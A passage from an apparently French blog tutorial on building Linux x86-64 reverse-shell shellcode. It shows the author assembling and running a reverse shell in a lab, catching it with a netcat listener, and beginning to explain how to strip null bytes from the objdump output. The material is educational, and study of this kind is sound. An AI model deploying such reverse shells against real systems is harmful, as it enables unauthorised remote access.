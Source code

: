 J’assemble et je link pour créer mon executable et je l’exécute sur la machine cible : 

```bash
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ nasm -f elf64 -o myShell.o myShell.asm && ld -o myShell myShell.o
                                                                                                    
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ ./myShell
```

Et une fois exécuté voila ce qu’on a :

```bash
┌──(dropa㉿kali)-[~]
└─$ nc -lnvp 4444 
listening on [any] 4444 ...
connect to [192.168.45.128] from (UNKNOWN) [192.168.45.128] 34276
whoami
dropa
pwd
/home/dropa/Bureau/articles/shellcode
```

Super le reverse shell fonctionne !

Il ne nous reste plus qu’à obtenir le shellcode et c’est fini non ?

# Retirer les null bytes

Essayons : 

```bash
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ objdump -d myShell

myShell:     format de fichier elf64-x86-64

Déassemblage de la section .text :

0000000000401000 <_start>:
  401000:       b8 29 00 00 00          mov    $0x29,%eax
  401005:       bf 02 00 00 00          mov    $0x2,%edi
  40100a:       be 01 00 00 00          mov    $0x1,%esi
  40100f:       ba 06 00 00 00          mov    $0x6,%edx
  401014:       0f 05                   syscall

```

Je n'ai inclus que la première partie du retour d'objdump, car on peut observer qu'il reste un grand nombre de null bytes, ces fameux  "00" qui rendent notre shellcode inopérant.

Essayons de comprendre pourquoi nous avons des null bytes.

Dans la première instruction, initialement :

```nasm
mov rax, 29
```
